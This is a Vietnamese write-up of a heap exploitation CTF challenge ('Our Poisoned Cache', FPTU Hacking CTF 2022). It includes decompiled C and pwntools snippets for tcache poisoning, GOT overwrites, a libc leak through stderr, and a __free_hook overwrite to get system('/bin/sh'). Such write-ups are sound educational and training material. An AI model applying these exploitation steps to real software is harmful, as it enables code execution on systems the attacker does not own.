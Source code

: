 # [Our Poisoned Cache - FPTU Hacking CTF 2022]

Checksec xem nó thế nào đã:
![image](https://user-images.githubusercontent.com/54637811/176064973-7838dab6-b41a-4afa-bac8-74be7196cbd1.png)

Trông khá hứa hẹn, còn đây là code của em nó sau khi dịch ngược:

```C
void main(EVP_PKEY_CTX *param_1) {
    undefined8 local_38;
    undefined8 *local_30;
    void *local_28;
    undefined8 *local_20;
    undefined8 *local_18;
    long *local_10;

    init(param_1);
    local_10 = (long *)malloc(0x40);
    local_18 = (undefined8 *)((ulong)local_10 & 0xfffffffffffff000);
    local_20 = local_18 + 0x4200;
    local_30 = (undefined8 *)0x0;
    local_38 = 0;
    malloc(0x10);
    free(local_10);
    printf("Heap base is: %p\n", local_18);
    printf("Stack address is: %p\n", &local_38);
    puts("You can write wherever you want inside the heap");
    puts("Where:");
    __isoc99_scanf("%p", &local_30);
    puts("What:");
    __isoc99_scanf("%p", &local_38);
    if ((local_18 <= local_30) && (local_30 < local_20)) {
        *local_30 = local_38;
    }
    if (((*local_10 == 0) && (local_18 <= (undefined8 *)local_10[1])) &&
        ((undefined8 *)local_10[1] < local_20))
    {
        local_28 = malloc(0x40);
        read(0, local_28, 0x30);
        exit(0);
    }
    exit(0);
}

void secret(void)

{
    char local_58[76];
    int local_c;

    puts("Do you trust me?");
    puts("Are you thinking this is it?");
    puts("Is this where you find my secret?");
    memset(local_58, 0, 0x40);
    local_c = open("./secret.txt", 0);
    read(local_c, local_58, 0x40);
    puts(local_58);
    close(local_c);
    return;
}
```

NÓ cho địa chỉ Heap và Stack, rồi nó cho Write Where What nhưng với điều kiện địa chỉ nằm trong Heap và Heap + 0x4200.

Để ý thì nó malloc 0x40 xong free ngay sau đó, để lại 1 freed chunk trong tcache bin. Nếu ta thay đổi con trỏ này thì lần malloc tiếp theo sẽ trả về con trỏ mới được ghi đè.

Mục tiêu đầu tiên cần nghĩ tới là để nó trỏ tới got để ghi đè exit@got bằng main.
```python
r.sendlineafter(b'Where:\n', hex(heap+0xa8).encode())
r.sendlineafter(b'What:\n', hex(bin.got['exit']).encode())
r.send(p64(bin.symbols['main']))
```
Ok ngon nghẻ, nhưng nếu lần 2 thì sẽ không được vì điều kiện này
```C
if (((*local_10 == 0) && (local_18 <= (undefined8 *)local_10[1])) &&
        ((undefined8 *)local_10[1] < local_20))
```

Khi ta malloc 0x40 để ghi đè ở bước trước thì nó sẽ để lại 1 số thứ linh tinh ở trên tcache bin
![image](https://user-images.githubusercontent.com/54637811/176068078-20484a51-7ab3-44d4-8e16-fb5f2ae0c801.png)
Như vậy lần malloc 0x40, free nó thì `*local_10 != 0`, không thỏa mãn điều kiện. Do đó ta cần dọn dẹp cái đống đó đi
```python
r.sendlineafter(b'Where:\n', hex(heap+0xa8).encode())
r.sendlineafter(b'What:\n', hex(heap+0x2a0).encode())
```
Ok các bước tiếp theo sẽ là ghi đè setvbuf@got thành puts@plt+6, ghi đè `_IO_2_1_stderr_` ở trên bss để nó trỏ tới chỗ nào đó có địa chỉ libc, thì chúng ta leak libc base. Dứt điểm bằng cách ghi đè `__free_hook`, `system("/bin/sh")`.
